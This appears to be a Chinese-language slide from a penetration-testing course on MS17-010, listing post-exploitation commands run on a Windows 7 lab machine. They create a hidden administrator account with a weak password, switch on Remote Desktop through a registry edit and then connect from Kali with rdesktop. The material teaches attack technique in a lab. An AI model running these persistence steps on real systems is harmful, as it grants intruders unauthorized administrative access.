

# Ms17-010
通过Shell对靶机Win7进行控制
创建用户名密码 cracer/123.com
net user cracer 123.com /add
将用户cracer添加入管理组
net localgroup administrators cracer /add
开启远程桌面功能
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
Kali远程桌面连接Win7
rdesktop 172.16.70.199:3389